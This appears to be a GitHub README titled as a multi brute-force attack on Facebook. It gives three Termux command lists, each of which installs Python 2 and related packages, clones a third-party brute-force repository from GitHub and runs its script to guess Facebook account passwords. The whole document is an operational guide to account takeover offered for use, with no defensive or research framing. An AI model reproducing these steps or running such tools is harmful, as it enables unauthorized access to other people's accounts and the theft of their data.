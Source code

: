 # MULTI-BRUTE-FORCE-ATTACK-ON-FACEBOOK  

So Let's Start....  
Step By Step  
First of All Download Termux from Google Play and Install it  After installing just give these commands to Termux  
And Run one by one  

![PicsArt_10-25-08 29 55](https://user-images.githubusercontent.com/75029023/111865355-9061ca80-89a1-11eb-91b9-6c5f35e01cfe.png)

# COMMAND LIST 1 
```
$ apt update && apt upgrade  
```
```
$ pkg install python2 
```
```
$ pkg install git  
```
```
$ pip2 install mechanize  
```
```
$ git clone https://github.com/pirmansx/mbf 
``` 
```
$ cd mbf 
```
```
$ python2 MBF.py  
```

# COMMAND LIST 2  
```
$ pkg update 
```
```
$ pkg upgrade 
```
```
$ pkg install python2  
```
```
$ pkg install perl 
```
```
$ pkg install curl 
```
```
$ pkg install mechanize 
```
```
$ pip2 install request
```
```
$ git clone https://github.com/Senitopeng/fbbrute 
```
```
$ cd fbbrute 
```
```
$ python2 fbbrute.py  
```

# COMMAND LIST 3 
```
$ apt update && apt upgrade 
```
```
$ pkg install pip 
```
```
$ pkg install python 
```
```
$ pkg install python2  
```
```
$ pip2 install mechanize 
```
```
$ pkg install git 
```
```
$ git clone https://github.com/hnov7/mbf 
```
```
$ cd mbf 
```
```
$ ls 
```
```
$ python2 mbf.py 
```
```
$ 1 
```
```
$ y
```

![44804662_315681345917191_1671247044175462400_o](https://user-images.githubusercontent.com/75029023/111865398-b4251080-89a1-11eb-802a-d00f8e6ed33c.jpg)


